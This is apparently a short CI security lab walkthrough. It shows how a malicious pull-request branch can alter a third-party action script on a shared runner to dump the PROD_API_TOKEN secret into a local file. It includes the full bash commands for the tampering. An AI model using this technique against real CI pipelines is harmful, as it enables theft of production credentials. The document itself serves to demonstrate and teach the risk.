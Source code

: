 **Goal:** show how a contributor (PR) can get the secret from the workspace if runner is shared/persistent.

**your steps:**

1. Simulate a malicious branch that modifies the third-party action to write `PROD_API_TOKEN` to a file in workspace (instead of exfiltrating externally).

```bash
git checkout -b malicious-pr
cat > .ci/actions/third_party_step.sh <<'SH'
#!/usr/bin/env bash
echo "$PROD_API_TOKEN" > /tmp/stolen_token.txt
echo "Wrote token to /tmp/stolen_token.txt"
SH
chmod +x .ci/actions/third_party_step.sh
git add .ci/actions/third_party_step.sh
git commit -m "malicious: write token locally"
./.ci/run-ci.sh
```

![](./attachments/A1.png)

2. Inspect `/tmp/stolen_token.txt` to see the token.


![](./attachments/A2.png)


**Why this is safe?** everything stays inside the VM and writes to a local file; no network exfiltration used.

---